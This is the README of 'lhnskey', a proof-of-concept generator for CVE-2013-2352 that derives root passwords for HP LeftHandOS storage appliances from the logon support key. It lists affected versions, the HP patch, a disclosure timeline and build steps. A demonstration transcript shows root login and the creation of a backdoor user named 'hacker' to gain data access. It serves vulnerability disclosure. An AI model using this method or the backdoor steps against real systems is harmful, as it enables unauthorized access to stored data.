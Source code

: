 LHNSKEY
=========

Generator for CVE-2013-2352.

By: technion@lolware.net

Affected Platforms:
    All Hardware and sofware implementations running LeftHandOS 10.5 or earlier, including Failover Manager and VSA.

Fix:
    Apply HP Patch 10152 (LefthandOS 10.5) or 10151 (LefthandOS 10.0).

Revision History:
----------------
    2nd July 2013: Initial design
    3th July 2013: Consulted with HP
    17th July 2013: HP Released Patch

Demonstration:
-------------
The lhnskey application will create an appropriate root password based on the support key encountered during logon.
I recommend the following site to create the s/key response: http://www.ocf.berkeley.edu/~jjlin/jsotp/md5/

    login as: root
    Support Key: 00:0C:29:XX:XX:XX
    Using keyboard-interactive authentication.
    Password:
    Using keyboard-interactive authentication.
    challenge s/key 99 loca11277
    password:

    #You may then grant yourself access to data by creating a CMC account
    [root@localhost lefthand]# adduser hacker 
    [root@localhost lefthand]# passwd hacker Changing password for user hacker.
    New UNIX password: <password>
    BAD PASSWORD: it is based on a dictionary word 
    Retype new UNIX password: <password>
    passwd: all authentication tokens updated successfully.
    [root@localhost lefthand]# chsh hacker
    Changing shell for hacker.
    New shell [/bin/bash]: /etc/lefthand/bin/cliq Shell changed.


Installation
The official repository for lhnskey is the git tree. Install using the following:
    git clone https://github.com/technion/lhnskey
    ./configure
    make
    make check

The ./configure script accepts some options:
    --enable-development enable developer features default=no
    --enable-secure turn on security features default=yes

